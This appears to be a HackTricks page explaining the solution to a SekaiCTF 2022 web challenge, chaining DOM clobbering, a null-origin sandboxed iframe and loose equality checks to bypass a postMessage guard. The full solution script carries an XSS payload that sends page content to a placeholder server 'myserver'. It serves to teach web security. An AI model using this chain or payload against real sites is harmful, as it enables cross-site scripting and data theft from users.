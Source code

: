 # Bypassing SOP with Iframes - 2

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>

## Iframes in SOP-2

In the [**solution**](https://github.com/project-sekai-ctf/sekaictf-2022/tree/main/web/obligatory-calc/solution) for this [**challenge**](https://github.com/project-sekai-ctf/sekaictf-2022/tree/main/web/obligatory-calc)**,** [**@Strellic\_**](https://twitter.com/Strellic\_) proposes a similar method to the previous section. Let's check it.

In this challenge the attacker needs to **bypass** this:

```javascript
if (e.source == window.calc.contentWindow && e.data.token == window.token) {
```

If he does, he can send a **postmessage** with HTML content that is going to be written in the page with **`innerHTML`** without sanitation (**XSS**).

The way to bypass the **first check** is by making **`window.calc.contentWindow`** to **`undefined`** and **`e.source`** to **`null`**:

* **`window.calc.contentWindow`** is actually **`document.getElementById("calc")`**. You can clobber **`document.getElementById`** with **`<img name=getElementById />`** (note that Sanitizer API -[here](https://wicg.github.io/sanitizer-api/#dom-clobbering)- is not configured to protect against DOM clobbering attacks in its default state).
  * Therefore, you can clobber **`document.getElementById("calc")`** with **`<img name=getElementById /><div id=calc></div>`**. Then, **`window.calc`** will be **`undefined`**.
  * Now, we need **`e.source`** to be **`undefined`** or **`null`** (because `==` is used instead of `===`, **`null == undefined`** is **`True`**). Getting this is "easy". If you create an **iframe** and **send** a **postMessage** from it and immediately **remove** the iframe, **`e.origin`** is going to be **`null`**. Check the following code

```javascript
let iframe = document.createElement('iframe');
document.body.appendChild(iframe);
window.target = window.open("http://localhost:8080/");
await new Promise(r => setTimeout(r, 2000)); // wait for page to load
iframe.contentWindow.eval(`window.parent.target.postMessage("A", "*")`);
document.body.removeChild(iframe); //e.origin === null
```

In order to bypass the **second check** about token is by sending **`token`** with value `null` and making **`window.token`** value **`undefined`**:

* Sending `token` in the postMessage with value `null` is trivial.
* **`window.token`** in calling the function **`getCookie`** which uses **`document.cookie`**. Note that any access to **`document.cookie`** in **`null`** origin pages tigger an **error**. This will make **`window.token`** have **`undefined`** value.

The final solution by [**@terjanq**](https://twitter.com/terjanq) is the [**following**](https://gist.github.com/terjanq/0bc49a8ef52b0e896fca1ceb6ca6b00e#file-calc-html):

```html
<html>
    <body>
        <script>
            // Abuse "expr" param to cause a HTML injection and
            // clobber document.getElementById and make window.calc.contentWindow undefined
            open('https://obligatory-calc.ctf.sekai.team/?expr="<form name=getElementById id=calc>"');
            
            function start(){
                var ifr = document.createElement('iframe');
                // Create a sandboxed iframe, as sandboxed iframes will have origin null
                // this null origin will document.cookie trigger an error and window.token will be undefined
                ifr.sandbox = 'allow-scripts allow-popups';
                ifr.srcdoc = `<script>(${hack})()<\/script>`
                
                document.body.appendChild(ifr);
                
                function hack(){
                    var win = open('https://obligatory-calc.ctf.sekai.team');
                    setTimeout(()=>{
                        parent.postMessage('remove', '*');
                        // this bypasses the check if (e.source == window.calc.contentWindow && e.data.token == window.token), because
                        // token=null equals to undefined and e.source will be null so null == undefined
                        win.postMessage({token:null, result:"<img src onerror='location=`https://myserver/?t=${escape(window.results.innerHTML)}`'>"}, '*');
                    },1000);
                }
                
                // this removes the iframe so e.source becomes null in postMessage event.
                onmessage = e=> {if(e.data == 'remove') document.body.innerHTML = ''; }
            }
            setTimeout(start, 1000);
        </script>
    </body>
</html>
```

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>
